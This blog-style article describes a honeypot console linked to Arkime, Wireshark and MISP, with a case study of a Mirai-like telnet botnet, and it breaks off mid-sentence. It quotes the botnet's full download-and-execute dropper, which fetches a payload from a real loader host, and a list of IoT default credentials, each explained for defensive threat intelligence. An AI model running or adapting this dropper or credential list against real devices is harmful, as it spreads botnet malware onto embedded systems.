









<p align="center">
  
</p>

# My personal Fantastic Four

### A deep dive through honeypot telemetry, Arkime, Wireshark and MISP

*The long version. A condensed edition of this appeared on LinkedIn; this one keeps
the detail that had to be cut — the console walkthrough, the full dropper analysis,
and the reasoning behind the joins between the tools.*

> **A note on the indicators below.** URLs are defanged (`hxxp://`) in this
> document so nothing here is click-through or auto-fetched by a crawler. The
> published evidence bundles keep them live and parseable, because tooling needs
> them that way.

---

## Contents

- [Preface](#preface)
- [The challenge: why a capture button cannot work](#the-challenge-why-a-capture-button-cannot-work)
- [Back to the drawing board](#back-to-the-drawing-board)
- [The hero: finding one session in four million events](#the-hero-finding-one-session-in-four-million-events)
- [The setup: how the console talks to Arkime](#the-setup-how-the-console-talks-to-arkime)
- [The case: 42.232.28.201](#the-case-4223228201)
- [Calling in the other three](#calling-in-the-other-three)
- [So where does that leave the workflow?](#so-where-does-that-leave-the-workflow)
- [Sharing is caring](#sharing-is-caring)

---

## Preface

If you have read my earlier posts, you know the question I keep circling back to:
what can we actually learn from an attacker's own traffic?

Not the alert. Not the log line someone else's parser decided was interesting.
The traffic itself — every packet, in order, exactly as it arrived.

Most of what I wrote back then was about getting hold of that traffic in the
first place. How do you build a library of PCAP files worth analysing? How do you
capture attacks that are real rather than staged? That thread ended with the
honeypot framework I built: a small, deliberately vulnerable estate — SSH,
Telnet, HTTP, SMB, RDP, FTP, MySQL — recording every event that touches it.

Then the opposite problem arrived. In under four weeks it had logged more than
**four million events**. The needle-in-the-haystack problem, except I had built
the haystack myself.

---

## The challenge: why a capture button cannot work

My first attempt looked sensible on a whiteboard. The console lists attacks as
they arrive; put a **Capture** button on each row. See something interesting,
click it, get the packets.

It cannot work, and the reason is causality, not engineering.

An event appears in that list *because it has already happened*. The login was
tried, the command ran, the file was fetched — and only then does it surface for
me to look at. By the time my finger reaches the button, the only thing I can
record is whatever the attacker does next. Which, for the sessions worth
studying, is usually nothing: they got what they came for and left.

There is a tempting objection, and it is worth taking seriously because it is
half right. Most of what hits a honeypot is a scanner, and **scanners come back**.
They knock repeatedly, on a schedule, from the same or rotating addresses. Miss
this pass and you can simply arm the capture and wait for the next one. For the
bulk of the traffic — the commodity botnet sweeping /0 for default credentials —
that genuinely works.

It fails exactly where it matters. A directed attack does not come back. Someone
who probes deliberately, adapts to what they find, and leaves does it once. A
new campaign's first appearance is by definition unprecedented — there is no
earlier pass to have caught. And the interesting minority of *scanner* sessions,
the ones that get in and run stage two, are the ones you cannot predict either.
A strategy of "wait for the repeat" is a strategy that captures everything except
the things you would want to keep.

So there is only one honest fix. Stop deciding what to record. Record
everything, continuously, and make the decision afterwards — at analysis time,
when you finally know what mattered.

Which I was already doing, and had somehow not connected: a Protectli appliance
in my rack takes all perimeter traffic off a SPAN port and writes every packet to
a 1 TB SSD, feeding Arkime and OpenSearch Dashboards through Malcolm. The packets
were never the problem. Finding the twelve that mattered was.

---

## Back to the drawing board

My instinct was to keep building — add search to the console, add a packet
viewer, add an export format. That instinct was wrong. Every one of those
features already exists somewhere, done properly, by people who have worked on it
for years. What did not exist was anything joining them up.

So I built for integration instead of features. The architecture starts from one
question asked of each tool: **what is the one job you do better than anything
else?**

| | Role | Why it, and not the others |
|---|---|---|
| 🍯 **Honeypot** | **the lure** — ground truth about *intent* | It is the only component an attacker talks *to*. It knows the password was accepted and what was typed next. No packet capture can infer that. |
| 🗄️ **Arkime** | **the memory** — the indexed full-packet lake | It holds weeks of traffic and can retrieve any slice in seconds. It has no idea which slice matters. |
| 🔬 **Wireshark** | **the eye** — the actual bytes | Unbeatable on a single stream. Useless against two terabytes. |
| 🌐 **MISP** | **the network** — one finding, many consumers | Turns a local observation into something another team's tooling can act on without reading my prose. |

Assign the roles and the boundaries draw themselves. The honeypot knows what
happened but never sees a packet. Arkime holds every packet but has no idea which
sessions mattered, because intent lives in the honeypot's event log. Wireshark is
brilliant on one stream and hopeless at scale. MISP does not care about any of it
until you hand it something structured.

No single tool does all four. That is the point of this article — and the
interesting engineering turned out to be almost entirely in the **handoffs**:
carrying a session identity from one tool into the next without losing it, and
without a human retyping an IP address into a search box.



---

## The hero: finding one session in four million events

Before any of the handoffs matter, something has to point at the session worth
looking at. That is the honeypot's second job, and the one I underestimated.

Four million events is not a dataset, it is a haystack. So the console offers
several routes to the same place, because "interesting" means different things
depending on what you are doing that day.

### Live log — watching it happen

Everything as it lands, filterable by service and event type. This is where you
notice a campaign *starting*: a service that is normally quiet suddenly is not,
or a credential pattern you have not seen before begins repeating.


<!-- SCREENSHOT: live log mid-flow, filter chips visible. -->

### Event list — when you know what you are after

The full history, filterable and drillable by service, event type, time window
and source. This is the analytical view: *show me every `ssh_download_attempt`
this week*, then work backwards to who was responsible.


<!-- SCREENSHOT: event list filtered to one event type, showing the drill path. -->

### Attacker list — who is loudest

One row per source address, with lifetime counters, geolocation, ASN and
reputation score. Sortable by volume, by credentials tried, by whether anything
was actually executed.


<!-- SCREENSHOT: attacker list sorted by events, a couple of blocked rows in red. -->

### Map view — triage by instinct

Attacks plotted by origin and sized by volume. This sounds like decoration and
mostly is, but it has one genuine use: it answers "what is unusual today?"
faster than any query, because the human eye is very good at spotting the circle
that was not there yesterday. The case below started exactly this way.


<!-- SCREENSHOT: map with one dominant circle on the telnet service. -->

### Session list — what a session actually contained

This is the one that changed how I work. Every TCP session, classified not by
volume but by **substance**:

| | Tier | Meaning |
|---|---|---|
| ● | **content** | Commands ran. Somebody or something got a shell. |
| ◆ | **payload** | A file was fetched or uploaded. |
| ◐ | **auth** | Credentials were tried; nothing further happened. |
| ○ | **probe** | Connected and left. |


<!-- SCREENSHOT: session list with the Activity column — mostly hollow circles,
     a few filled. This is the single best picture of the triage problem. -->

A telnet scanner opens thousands of sessions and a fraction get past the login
prompt. Sorting by substance rather than by volume turns "read 2,500 sessions"
into "read the eleven that did something". It is a trivial classification — count
the event types per session — and it saved more analyst time than anything else
I built.

Open one and the detail panel shows what that attacker did: credentials,
commands, files, HTTP paths, SQL, RDP and SMB activity, each in its own panel,
with the Arkime integration in the same view.


<!-- SCREENSHOT: detail panel with populated Credentials + Commands panels and
     the Arkime bar. Pick an attacker that ran commands. -->

Select a single session in the Arkime picker and **everything below follows it** —
the panels, the event list, the Arkime query, and the exported report all narrow
to that one TCP connection. That consistency matters more than it sounds: a
report that disagrees with the screen it was generated from is worse than no
report.

---

## The setup: how the console talks to Arkime

There is no plugin, no shared database, no message bus, no agent on the capture
host. Arkime already exposes a perfectly good viewer API, and the honeypot
already knows things Arkime doesn't. The integration is just the console making
HTTP calls with data it already has.

Three things cross that link: **an expression** (which packets), **a time
window** (when), and occasionally **a tag** written back.

What took the work was not the plumbing. It was getting the identity right —
making sure the thing the console asks for is the same thing the analyst meant.

### Is there anything to look at?

Open an attacker and the console answers a question the honeypot cannot answer
alone: *do we have packets for this?*

```http
GET /api/sessions?expression=ip%20%3D%3D%2045.155.205.9
                 &startTime=1783625859&stopTime=1783659322&length=0
```

`length=0` because we don't want the sessions — only `recordsFiltered`, the
count. That single number drives a green or red badge: *4,211 sessions*, or *no
packets captured for this filter*.

The window is padded five seconds either side. The honeypot's clock and the
capture host's clock are not the same clock, and a short session sitting on the
boundary is exactly the one you don't want to lose.

Click through and the same expression becomes a deep link — you land in Arkime
already filtered, instead of retyping an IP and hand-copying two timestamps.
Small thing. It is the difference between checking and not bothering to check.

### Narrowing to one session

This is where I got it wrong first. My initial filter used the service port:

```
ip == 45.155.205.9 && port == 23
```

For a telnet scanner that returns every one of its thousands of sessions —
technically correct, analytically useless. What identifies a single TCP
connection is the attacker's **ephemeral source port**, which the honeypot
records and Arkime indexes:

```
ip.src == 45.155.205.9 && port.src == 51834
```

Same window, one connection. The honeypot knows which session mattered because
it saw the commands; Arkime holds the bytes. Neither could answer alone — and
the join between them is one field that both happened to record.

### Tagging back

The one write operation. When a session is worth marking, the console tags it in
Arkime with a unique label, so the selection survives outside my console and
anyone with Arkime access can find the same traffic later. It needs the
anti-CSRF token dance (`ARKIME-COOKIE` → `Arkime-Token`), which took a while to
work out and is the only genuinely fiddly part of the integration.

---

## The case: 42.232.28.201

I did not go looking for this one. I opened the map view, found the biggest
circle attached to the telnet service, and clicked it. That is the whole triage
step — the loudest thing touching the noisiest service, on the day I happened to
be looking.

**42.232.28.201** — `hn.kd.ny.adsl`, China, AS4837 CHINA UNICOM China169
Backbone. Still mid-session when I opened it.

| | |
|---|---|
| Window | 11:01 → 12:05 local (09:01 → 10:05 UTC) — 64 minutes |
| Events | 11,182 |
| Sessions | 2,520 |
| Credential attempts | 3,764 across 164 unique pairs |
| Accepted by the honeypot | 302 logins, 17 distinct pairs |
| Commands executed | 3,311 — from just **11 unique** command strings |
| Services touched | telnet only |

Two numbers matter more than the rest.

**11 unique commands out of 3,311 executions.** That is not somebody typing.
That is a script, running the identical sequence every time it gets in.

**11.9% of sessions reached a command.** Of 2,520 connections, only 301 got past
the login prompt. The other seven-eighths are the noise: connect, try a
credential, fail, disconnect. Triage by "which IP is loudest" and you get this
actor — then waste your afternoon reading 2,200 identical failures. This is
precisely what the session tiers exist to prevent.

### The credentials say what it is hunting

```
124x  root / xc3511             <-- accepted   (XiongMai / Dahua DVR)
114x  root / (empty)            <-- accepted
 88x  CUAdmin / CUAdmin         <-- accepted   (China Unicom CPE)
 51x  admin / 1234
 46x  admin / cat1029           <-- accepted
 46x  admin / gpon@Vnt00        <-- accepted   (GPON fibre ONT)
 44x  keomeo / keomeo           <-- accepted
 42x  root / 123456             <-- accepted
 42x  root / 070admin           <-- accepted
 41x  root / default
 40x  root / hi3518                           (HiSilicon IP-cam SoC)
 40x  telnetadmin / telnetadmin <-- accepted
```

`xc3511`, `hi3518`, `gpon@Vnt00`, `CUAdmin` — this is a DVR, IP-camera and
fibre-router list. It is hunting embedded Linux devices, not servers. Anyone who
has read the Mirai source will recognise the top of it.

One clarification, because it is the kind of thing that gets misread:
**"accepted" means my honeypot accepted it.** Cowrie is configured to let a
login through after a few attempts, precisely so the session continues and I get
to see what happens next. No real device was compromised. The value is not that
they got in — it is that getting in is the only way to observe stage two.

### Stage two

Every one of those 301 successful sessions ran the same thing. First, a probe
for a usable shell:

```
sh · shell · su · linuxshell · system · config terminal · enable · start
```

Eight ways to ask an embedded device for a prompt — cycling through BusyBox,
vendor CLIs and router menus until one answers. `enable` and `config terminal`
are Cisco-style; `linuxshell` and `system` are DVR firmware menus. The script
does not know what it has landed on, so it tries the lot.

Then, on every one of them:

```sh
>/var/run/.x&&cd /var/run;>/mnt/.x&&cd /mnt;>/usr/.x&&cd /usr;
>/dev/.x&&cd /dev;>/dev/shm/.x&&cd /dev/shm;>/tmp/.x&&cd /tmp;>/var/.x&&cd /var;
rm -rf i;
wget hxxp://222.220.145.56:51630/i || curl -O hxxp://222.220.145.56:51630/i ||
  /bin/busybox wget hxxp://222.220.145.56:51630/i;
chmod 777 i || (cp /bin/ls ii;cat i>ii &&rm i;cp ii i;rm ii);
./i;
/bin/busybox echo -e '\x47\x52\x58\x51\x4f\x41\x4f\x4c'
```

Read left to right, it is a small masterpiece of defensive engineering against
hostile environments:

**`>/var/run/.x&&cd /var/run`** — create a file, and only `cd` there if it
worked. Repeated across seven directories until one is writable. Embedded devices
have read-only filesystems in unpredictable places, and the script has no way to
know which in advance, so it probes with the cheapest possible test.

**`rm -rf i`** — clean up a previous infection attempt, or a competitor's. IoT
botnets fight each other for the same devices.

**`wget || curl || /bin/busybox wget`** — three ways to download, because you do
not know which binaries this device has. BusyBox last, because its `wget` is the
most limited but the most likely to exist.

**`chmod 777 i || (cp /bin/ls ii; cat i>ii; rm i; cp ii i; rm ii)`** — the
cleverest line. If `chmod` is missing, copy an existing executable (`/bin/ls`),
overwrite its *contents* with the payload while keeping its inode permissions,
and inherit its execute bit. That trick is why this still works on stripped
firmware that shipped without `chmod`.

**`echo -e '\x47\x52\x58\x51\x4f\x41\x4f\x4c'`** — decodes to `GRXQOAOL`. A
randomised marker: the bot prints it and watches for it coming back, confirming
it has a real shell rather than a honeypot or a dead socket. The other variant
observed in this run prints `ZQIBQY`. This is the botnet doing its own honeypot
detection, and it is the single most useful behavioural fingerprint in the whole
capture — it is unique per campaign and survives everything else changing.

### The indicator that is actually worth something

```
hxxp://222.220.145.56:51630/i
```

One URL, one payload, high port. **That** — not the source IP — is the thing to
share. The source is a China Unicom ADSL line that will be someone else's next
week. The loader host is infrastructure, and the payload behind it has a hash.

And that is the point where the honeypot has told me everything it can. It knows
who connected, what they tried, what they typed, what they fetched.

It has never seen a single packet.

---

## Calling in the other three

Everything above came from one tool doing the one job only it can do:
establishing **intent**. No amount of packet capture would have told me that
`admin / cat1029` was accepted, or that eleven command strings account for 3,311
executions. That knowledge exists because the honeypot was standing in the path
pretending to be a DVR.

Ask it anything about the wire, though, and it is blind. Did the loader host
actually respond? What did the payload look like on the way in? Is this the same
client that hit me last week from a different address?

Three questions, and I already know who to ask.

### Arkime — the memory

The console hands Arkime the one thing Arkime lacks: which of its millions of
indexed sessions was worth keeping.

```
ip.src == 42.232.28.201 && port.src == 37233
```

Arkime hands back the bytes. One button turns that into an evidence bundle,
scoped to whatever is selected — the whole attacker, one protocol, or that single
TCP session:

```
rpot-<ip>-<utc>[-sanitised].zip
│
├── capture.pcap        Raw packets from Arkime, filtered to scope
├── report.pdf          Human-readable analysis (WeasyPrint, A4)
├── iocs.json           Machine-readable indicators
├── iocs.yaml           …the same, in YAML
├── misp-event.json     MISP core-format Event, importable as-is
├── misp-event.yaml     …the same, in YAML
├── SHA256SUMS          coreutils format — `sha256sum -c SHA256SUMS`
└── MANIFEST.txt        Digests, the query used to cut the capture, handling notes
```



Because the manifest carries the exact expression, tag and UTC window used to cut
the capture, plus the PCAP's own SHA256, anyone I send it to can re-run the query
on their own Arkime and verify they received what I produced. A report that
cannot be checked is an opinion.

*Sanitised* is the default: my sensor's own addresses are rewritten to RFC 5737 /
RFC 3849 documentation ranges in both the report **and** the PCAP. The attacker's
addresses, ports, payloads and timings are never touched — altering those would
make the bundle worthless for correlation. The limit is worth stating plainly:
packet *payloads* are not rewritten, so banners, host keys and certificates
inside the traffic can still identify a sensor. It removes the obvious
identifiers; it is not anonymisation.

### Wireshark — the eye

Seeing is believing.

Eight seconds of telnet is 7.6 KB of PCAP, and at that size you stop reasoning
about the attack and simply read it: the credential crossing in clear text, the
shell probes coming back rejected one after another, the `wget` going out, the
marker bytes echoing home.


<!-- SCREENSHOT: Follow TCP Stream on the telnet session. Red/blue stream view
     is instantly recognisable and shows the credential + commands inline.
     CHECK the sanitised addresses are the ones visible (192.0.2.x). -->

This is the step no summary replaces. The honeypot told me a command ran;
Wireshark shows me the device answering, with timing. It would be useless against
two terabytes — which is exactly why the two tools before it exist.

### MISP — the network

A finding that stays on my disk is worth nothing to anyone else. But "sharing"
usually means pasting a list of IP addresses into a blog post, and that is worth
almost nothing either.

MISP adds two things a text file cannot.

**Structure.** An indicator with a *type* can be consumed. `sha256` under Payload
delivery, `url` for the loader host, `ip-src` flagged `to_ids` — a receiving SIEM
knows what to do with each without a human reading my prose first. Credentials
become `credential` objects; fingerprints become `ja4-plus` objects. Nobody has
to parse my formatting.

**Correlation.** This is the real argument, and it only works at scale. When I
publish the loader host and someone else has already seen it, MISP joins the two
events automatically. My 64 minutes of telnet noise becomes one data point in a
picture I cannot see from a single sensor.

The JA4 fingerprints matter most here. JA4T, JA4H and JA4SSH describe *how* the
client speaks — TCP options, HTTP header order, SSH negotiation — not where it
